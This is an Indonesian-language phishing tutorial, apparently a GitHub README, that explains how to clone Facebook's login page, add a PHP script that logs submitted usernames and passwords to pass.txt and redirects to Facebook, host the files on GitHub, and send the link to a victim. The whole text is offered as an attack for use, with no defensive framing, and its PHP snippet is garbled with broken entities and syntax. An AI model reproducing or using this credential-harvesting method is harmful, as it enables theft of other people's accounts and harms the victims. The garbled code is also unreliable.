 HackFB_tr4voltr4

1. Save Halaman Login Facebook yang resmi dengan Script Hack FB Tertarget CMD
Hal yang harus anda lakukan pertama yakni anda harus mendownload Facebook HTML code khususnya untuk halaman login resmi di Facebook.

Berikut save halaman login Facebook yang resmi dengan script hack FB tertarget CMD:
Pertama-tama masuk ke halaman login resmi Facebook atau silahkan anda kunjungi melalui link berikut ini (http://www.facebook.com/login.php/).
Tinggal anda klik kanan di sembarang area pada halaman login, lalu anda pilih opsi Save As.
Kemudian anda simpan di satu folder baru supaya gampang dicari nantinya.


2. Download Script Hack FB Tertarget CMD
Hal yang harus anda lakukan selanjutnya yakni anda unduh lebih dulu script hack FB tertarget CMD ini, silahkan anda kunjungi melalui link berikut ini (Script Hack FB).


3. Menimpa Script HTML Halaman Login Resmi Facebook Lewat Script Hack FB Tertarget CMD
Jika sudah selesai mengunduhnya script hack FB tertarget CMD ini, maka hal yag hars anda lakukan yakni copy dan timpa file HTML halaman login resmi FB yang anda sudah peroleh dilangkah ke 1.


4. Membuat File Next.txt dengan Script Hack FB Tertarget CMD
Langkah cara script hack FB tertarget CMD ini, langsung saja anda copy script hack FB yang terdapat dibawah ke dalam Notepad kemudian simpan dengan nama next.php.

Jangan sampai anda lupa untuk menaruh file pada satu folder yang sama seperti langkah ke 1 diatas

"&It;?phph header('Location:http://www.Facebook.com/login.php'); $handle = fopen('pass.txt', 'a'); foreach($_GET as $variable =&gt, $value) {fwrite($handle, $variable); fwrite($handle, '='); fwrite($handle, $value); fwrite($handle, '\n'); } fwrite($handle, '\n'); fclose($handle); exit; ?&gt;"

5. Membuat File Penampungan Username dan password Target dengan Script Hack FB Tertarget CMD
Langkah script hack FB tertarget CMD selanjutnya, langsung saja anda buat file berekstensi txt dengan memakai Notepad kemudian anda simpan menggunakan nama pass.txt.


6. Hosting Semua File Script Hack FB Tertarget CMD
Langkah script hack FB tertarget CMD, jika anda sudah selesai mengumpulkan file dari langkah ke 1 hingga ke 5 setelah itu anda lakukan hosting file-file ini.

Berikut daftar nama-nama file script hack yang nantinya diunggah atau hosting
Masuk Facebook_Facebook_Files.
Masuk Facebook_facebook.html.
next.php.
pass.text.

Tinggal anda unggah script hack FB ini lewat github untuk melalkukan hosting file tersebut, tentuya secara cuma-cuma alias gratis.

7. Script Hack FB Tertarget CMD dengan Menyebarkan Link Halaman Masuk Facebook
Jika anda sudah selesai menghosting file script hack FB tertarget CMD samai ke langkah 6, maka anda copy link halaman masuk Facebook hasil dari hosting barusan.

Pasalnya link halaman masuk Facebook yang anda peroleh tadi dari hasil melakukan hosting tersebut, silahkan anda kirimkan atau berikan kepada target atau korbannya.

Apa bila target login FB memakai link halaman fake login Facebook yang barusan anda kirimkan secara langsung username dan password FB akan tersimpan pada file passs.txt.
